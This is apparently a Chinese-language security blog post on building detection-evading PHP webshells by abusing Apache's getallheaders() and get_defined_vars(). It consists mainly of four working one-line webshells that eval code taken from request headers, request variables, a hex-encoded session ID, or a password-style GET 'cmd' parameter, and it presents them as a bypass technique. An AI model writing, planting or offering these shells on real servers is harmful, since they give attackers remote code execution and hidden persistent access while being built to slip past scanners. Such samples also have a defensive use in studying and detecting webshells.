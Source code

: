 ```yaml
---

title: "PHP利用Apache、Nginx的特性实现免杀Webshell"
date: 2019-01-25T21:20:47+08:00
lastmod: 2019-01-25T21:20:47+08:00
draft: false
tags: ['apache','nginx','shell','bypass']
categories: ['bypass']
comment: true
---
```


`get_defined_vars()`、`getallheaders()`是两个特性函数，我们可以通过这两个函数来构造我们的webshell。
前几天看到的，一直忘记写，填坑。
<!--more-->

|  环境  |         函数         |               用法               |
| :----: | :------------------: | :------------------------------: |
| nginx  | `get_defined_vars()` | 返回由所有已定义变量所组成的数组 |
| apache |  `getallheaders()`   |     获取全部 HTTP 请求头信息     |

## apache环境

```php
<?php
eval(next(getallheaders())); 
?>
```

![](https://y4er.com/img/uploads/20190509161475.jpg)

## apache和nginx环境通用

```php
<?php
eval(implode(reset(get_defined_vars())));
?>
```

![](https://y4er.com/img/uploads/20190509164784.jpg)
另外一种通过执行伪造的sessionid值，进行任意代码执行。

```php
<?php
eval(hex2bin(session_id(session_start())));
?>
```

![](https://y4er.com/img/uploads/20190509166713.jpg)

`706870696e666f28293b`这个是`phpinfo();`的hex编码。

## 给shell加密码

```php
<?php eval(get_defined_vars()['_GET']['cmd']);?>
```

